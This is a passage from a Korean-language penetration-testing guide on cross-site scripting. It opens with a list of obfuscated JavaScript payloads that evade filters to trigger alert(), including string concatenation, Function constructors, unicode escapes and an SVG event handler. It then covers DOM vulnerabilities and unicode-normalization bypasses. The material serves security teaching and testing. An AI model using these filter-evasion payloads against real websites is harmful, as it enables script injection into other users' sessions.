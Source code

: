 ````javascript
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````
## **DOM 취약점**

**공격자가 제어하는 데이터를 안전하게 사용하지 않는** `location.href`와 같은 **JS 코드**가 있습니다. 공격자는 이를 악의적인 JS 코드를 실행하기 위해 악용할 수 있습니다.\
**[**DOM 취약점에 대한 설명이 확장되어** 이 페이지로 이동되었습니다**](dom-xss.md)**:**

{% content-ref url="dom-xss.md" %}
[dom-xss.md](dom-xss.md)
{% endcontent-ref %}

거기에서는 **DOM 취약점이 무엇인지, 어떻게 유발되는지, 그리고 어떻게 악용하는지에 대한 자세한 설명**을 찾을 수 있습니다.\
또한, **언급된 게시물의 끝에서** [**DOM Clobbering 공격에 대한 설명**](dom-xss.md#dom-clobbering)을 찾을 수 있습니다.

## 다른 우회 방법

### 정규화된 유니코드

**반사된 값**이 서버(또는 클라이언트 측)에서 **유니코드 정규화**되는지 확인하고 이 기능을 악용하여 보호장치를 우회할 수 있습니다. [**여기에서 예제를 찾을 수 있습니다**](../unicode-injection/#xss-cross-site-scripting).
